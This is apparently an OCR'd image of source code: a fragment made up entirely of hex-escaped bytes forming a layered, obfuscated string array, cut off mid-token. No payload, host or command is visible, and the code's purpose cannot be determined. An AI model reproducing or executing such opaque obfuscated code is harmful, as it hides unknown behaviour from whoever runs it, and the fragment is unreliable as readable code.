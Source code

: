 5C\x34\x5C\x66\x27\x2C\x27\x5C\x4C\x5C\x6A\x5C\x34\x5C\x62\x5C\x31\x30\x5C\x31\x6A\x5C\x65\x5C\x6B\x27\x2C\x27\x5C\x31\x74\x5C\x31\x30\x5C\x31\x69\x5C\x6A\x5C\x43\x27\x2C\x27\x5C\x31\x6A\x5C\x6B\x5C\x31\x72\x5C\x31\x58\x5C\x31\x69\x27\x2C\x27\x5C\x37\x5C\x62\x5C\x66\x5C\x65\x5C\x61\x5C\x61\x27\x2C\x27\x5C\x63\x5C\x34\x5C\x38\x5C\x33\x5C\x31\x71\x5C\x64\x27\x2C\x27\x5C\x63\x5C\x34\x5C\x38\x5C\x33\x5C\x31\x46\x5C\x43\x5C\x36\x27\x2C\x27\x5C\x77\x5C\x36\x5C\x42\x5C\x61\x5C\x31\x6D\x5C\x6E\x5C\x6A\x5C\x65\x5C\x38\x5C\x56\x27\x2C\x27\x5C\x34\x5C\x64\x5C\x39\x5C\x42\x5C\x34\x5C\x36\x5C\x33\x27\x2C\x27\x5C\x6C\x5C\x62\x5C\x65\x5C\x42\x5C\x42\x5C\x33\x5C\x64\x5C\x36\x5C\x37\x27\x2C\x27\x5C\x64\x5C\x36\x5C\x37\x5C\x41\x5C\x6E\x5C\x38\x5C\x34\x5C\x36\x5C\x34\x5C\x6C\x27\x2C\x27\x5C\x55\x5C\x39\x5C\x38\x5C\x36\x5C\x77\x5C\x47\x5C\x41\x5C\x35\x5C\x30\x5C\x30\x27\x2C\x27\x5C\x38\x4F\x5C\x41\x5C\x6E\x5C\x38\x5C\x34\x5C\x36\x5C\x34\x5C\x6C\x5C\x77\x5C\x66\x27\x2C\x27\x5C\x33\x5C\x63\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x37\x5C\x47\x5C\x41\x5C\x69\x5C\x41\x5C\x49\x27\x2C\x27\x5C\x6A\x5C\x61\x5C\x65\x5C\x48\x5C\x48\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x38\x5C\x39\x5C\x37\x5C\x31\x42\x5C\x43\x5C\x37\x27\x2C\x27\x5C\x62\x5C\x66\x5C\x33\x5C\x34\x5C\x36\x5C\x33\x5C\x31\x7A\x5C\x61\x5C\x33\x5C\x42\x27\x2C\x27\x5C\x33\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x36\x5C\x56\x5C\x6B\x5C\x33\x27\x2C\x27\x5C\x36\x5C\x33\x5C\x32\x5C\x36\x5C\x4A\x5C\x31\x67\x5C\x34\x5C\x50\x5C\x34\x5C\x37\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x56\x5C\x64\x5C\x62\x27\x2C\x27\x5C\x4C\x5C\x38\x5C\x39\x5C\x37\x5C\x31\x42\x5C\x43\x5C\x37\x5C\x4C\x5C\x62\x5C\x65\x27\x2C\x27\x5C\x48\x5C\x33\x5C\x36\x5C\x31\x7A\x5C\x61\x5C\x33\x5C\x42\x5C\x33\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x37\x5C\x31\x74\x5C\x56\x5C\x31\x6A\x5C\x34\x5C\x48\x5C\x31\x4E\x5C\x34\x5C\x42\x5C\x33\x27\x2C\x27\x5C\x34\x5C\x6B\x5C\x6B\x5C\x33\x5C\x64\x5C\x38\x5C\x31\x66\x5C\x77\x5C\x39\x5C\x61\x27\x2C\x27\x5C\x31\x6F\x5C\x62\x5C\x65\x5C\x42\x5C\x42\x5C\x33\x5C\x64\x5C\x36\x5C\x37\x27\x2C\x27\x5C\x39\x5C\x37\x5C\x31\x42\x5C\x43\x5C\x37\x5C\x31\x50\x5C\x36\x5C\x77\x5C\x66\x5C\x33\x27\x2C\x27\x5C\x34\x5C\x38\x5C\x41\x5C\x4A\x5C\x49\x27\x2C\x27\x5C\x63\x5C\x34\x5C\x62\x5C\x33\x5C\x6A\x5C\x65\x5C\x65\x5C\x31\x30\x27\x2C\x27\x5C\x62\x5C\x65\x5C\x42\x5C\x42\x5C\x33\x5C\x64\x5C\x36\x5C\x37\x5C\x6C\x5C\x37\x27\x2C\x27\x5C\x43\x5C\x61\x5C\x36\x27\x2C\x27\x5C\x4C\x5C\x63\x5C\x33\x5C\x34\x5C\x36\x5C\x43\x5C\x66\x5C\x33\x5C\x38\x5C\x6C\x27\x2C\x27\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6E\x5C\x4C\x5C\x31\x54\x5C\x31\x6A\x5C\x31\x75\x5C\x32\x33\x27\x2C\x27\x5C\x65\x5C\x64\x5C\x36\x5C\x33\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x4B\x5C\x34\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x55\x5C\x42\x5C\x65\x5C\x66\x5C\x33\x5C\x41\x5C\x6E\x5C\x77\x5C\x66\x5C\x33\x27\x2C\x27\x5C\x63\x5C\x47\x5C\x41\x5C\x4A\x5C\x37\x5C\x33\x5C\x34\x5C\x66\x5C\x62\x5C\x77\x27\x2C\x27\x5C\x4A\x5C\x61\x5C\x34\x5C\x6A\x5C\x33\x5C\x61\x5C\x4A\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x31\x76\x5C\x39\x5C\x33\x5C\x55\x5C\x6E\x5C\x31\x62\x5C\x61\x5C\x61\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x34\x5C\x49\x27\x2C\x27\x5C\x37\x5C\x39\x5C\x42\x5C\x6B\x5C\x61\x5C\x33\x5C\x6C\x5C\x50\x5C\x39\x5C\x33\x27\x2C\x27\x5C\x50\x5C\x48\x5C\x66\x5C\x39\x5C\x38\x27\x2C\x27\x5C\x38\x5C\x31\x67\x5C\x31\x45\x5C\x31\x4B\x5C\x32\x27\x2C\x27\x5C\x31\x62\x5C\x32\x63\x5C\x42\x5C\x33\x5C\x55\x27\x2C\x27\x5C\x63\x5C\x43\x5C\x64\x5C\x62\x5C\x36\x5C\x39\x5C\x65\x5C\x64\x27\x2C\x27\x5C\x33\x55\x5C\x32\x47\x5C\x32\x46\x5C\x33\x55\x5C\x6E\x5C\x32\x56\x5C\x32\x68\x5C\x32\x47\x5C\x6E\x5C\x32\x68\x27\x2C\x27\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x5C\x39\x5C\x64\x5C\x48\x5C\x6C\x5C\x39\x5C\x62\x27\x2C\x27\x5C\x31\x72\x5C\x31\x46\x5C\x55\x5C\x50\x5C\x32\x33\x27\x2C\x27\x5C\x56\x5C\x31\x58\x5C\x31\x75\x5C\x38\x5C\x37\x27\x2C\x27\x5C\x31\x30\x5C\x31\x4F\x5C\x77\x5C\x31\x76\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x43\x5C\x36\x5C\x77\x5C\x65\x5C\x66\x27\x2C\x27\x5C\x64\x5C\x34\x5C\x42\x5C\x33\x27\x2C\x27\x5C\x6B\x5C\x43\x5C\x6A\x5C\x61\x5C\x39\x5C\x37\x5C\x77\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x37\x5C\x43\x5C\x6A\x5C\x37\x5C\x36\x5C\x66\x5C\x39\x5C\x64\x5C\x48\x27\x2C\x27\x5C\x4B\x5C\x36\x5C\x39\x5C\x42\x5C\x33\x5C\x49\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x36\x5C\x39\x5C\x42\x5C\x33\x5C\x49\x27\x2C\x27\x5C\x4A\x5C\x77\x5C\x31\x42\x5C\x38\x5C\x33\x5C\x63\x5C\x34\x5C\x43\x5C\x61\x5C\x36\x27\x2C\x27\x5C\x77\x5C\x36\x5C\x36\x5C\x6B\x5C\x37\x5C\x33\x56\x5C\x4A\x5C\x4A\x5C\x79\x5C\x4C\x27\x2C\x27\x5C\x41\x5C\x62\x5C\x34\x5C\x66\x5C\x65\x5C\x43\x5C\x37\x5C\x33\x5C\x61\x5C\x6C\x27\x2C\x27\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x6C\x5C\x39\x5C\x42\x5C\x34\x5C\x48\x5C\x33\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x27\x2C\x27\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x27\x2C\x27\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x37\x5C\x64\x5C\x39\x5C\x6B\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x4B\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x6E\x5C\x62\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x43\x5C\x36\x5C\x77\x5C\x65\x5C\x66\x5C\x6E\x5C\x6E\x5C\x41\x5C\x49\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x49\x5C\x4B\x5C\x37\x5C\x6B\x27\x2C\x27\x5C\x34\x5C\x64\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x38\x5C\x34\x5C\x36\x5C\x33\x5C\x41\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x49\x5C\x4B\x5C\x4A\x5C\x38\x27\x2C\x27\x5C\x39\x5C\x50\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x62\x5C\x61\x5C\x33\x5C\x34\x5C\x66\x27\x2C\x27\x5C\x41\x5C\x4A\x5C\x49\x5C\x4B\x5C\x4A\x5C\x61\x5C\x39\x5C\x49\x27\x2C\x27\x5C\x4C\x5C\x42\x5C\x34\x5C\x39\x5C\x64\x5C\x6C\x5C\x62\x5C\x34\x5C\x66\x5C\x65\x27\x2C\x27\x5C\x43\x5C\x37\x5C\x33\x5C\x61\x27\x2C\x27\x5C\x39\x5C\x36\x5C\x33\x5C\x42\x5C\x37\x